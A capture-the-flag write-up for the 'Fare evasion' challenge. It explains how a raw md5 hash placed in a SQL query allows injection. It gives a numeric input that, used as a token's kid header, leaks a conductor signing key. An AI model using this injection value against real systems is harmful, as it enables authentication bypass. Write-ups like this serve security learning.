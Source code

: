 ## Fare evasion

```
Author: Louis

SIGPwny Transit Authority needs your fares, but the system is acting a tad odd. We'll let you sign your tickets this time!

https://fare-evasion.chal.uiuc.tf/
```

Once we click on the passenger button we get the following messsage:

```text

Fare Collection

A transit system as great as ours cannot run without fares. SIGPwny Transit Authority requests $2 per passenger.
Sorry passenger,only  conductors are allowed right now. Please sign your own tickets.
hashed _RòsÜxÉÄÅ´\ä secret: a_boring_passenger_signing_key_?
```


```js
async function pay() {
      // i could not get sqlite to work on the frontend :(
      /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
       */
      const r = await fetch("/pay", { method: "POST" });
      const j = await r.json();
      document.getElementById("alert").classList.add("opacity-100");
      // todo: convert md5 to hex string instead of latin1??
      document.getElementById("alert").innerText = j["message"];
      setTimeout(() => { document.getElementById("alert").classList.remove("opacity-100") }, 5000);
    }
```


Basically we needed to do a sql injection after the md5 hash being generated.
A friend of mine funf this link: <https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes> which basically explains how dangerous md5 hash in a SQL queries is. 

On the bottom of the post there is an sql injection: `129581926211651571912466741651878684928`, using this as the kid header we get the conductor signing key: 

```text

Fare Collection

A transit system as great as ours cannot run without fares. SIGPwny Transit Authority requests $2 per passenger.
Sorry passenger, only conductors are allowed right now. Please sign your own tickets.
hashed ô÷uÞIBBçÙ+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e
hashed _RòsÜxÉÄÅ´\ä secret: a_boring_passenger_signing_key_?
```
